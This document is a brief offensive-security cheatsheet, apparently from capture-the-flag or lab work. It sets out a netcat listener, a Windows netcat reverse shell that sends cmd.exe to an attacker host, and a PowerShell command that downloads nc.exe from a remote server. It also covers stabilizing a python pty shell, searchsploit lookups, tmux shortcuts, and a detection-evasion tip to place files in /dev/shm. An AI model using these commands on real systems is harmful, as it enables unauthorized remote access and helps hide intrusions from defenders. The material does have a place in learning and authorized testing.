 # Cheatsheet

Listen locally with nc
```
nc -lvnp 4444
```

Remote (Windows):
```
nc.exe -e cmd.exe <local ip> 4444
```

Python web server and download with PS

```
python3 -m http.server 80
powershell Invoke-Webrequest -OutFile C:\temp\nc.exe -Uri http://10.10.14.116/nc.exe"
```

## Interactive terminal

Using Python for a psuedo terminal

```bash
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

# Exploits
```bash
# local exploit-db
searchsploit "service name"
# show code of exploit
searchsplot -x <path number>
```

# Tools
https://github.com/infodox/python-pty-shells

## tmux
```bash
# new session
tmux new -s <name>
# list
tmux ls
# attach
tmux attach -t <name>

## tmux options
run-shell /opt/tmux-logging/logging.tmux
```
prefix key: ctrl+b
|Purpose|Prefix|
|-|-|
|c|new tab|
|[0-9]|go to tab n|
|d|detach|
|%|vertical split|
|"|horizontal split|
|arrow keys|move to pane|
|z|toggle zoom into pane|
|$|rename tab|
|space|cycle looks|
|t|show time|



# Detection evasion
## Linux
`/dev/shm` is a ramdisk -> not saved for ever
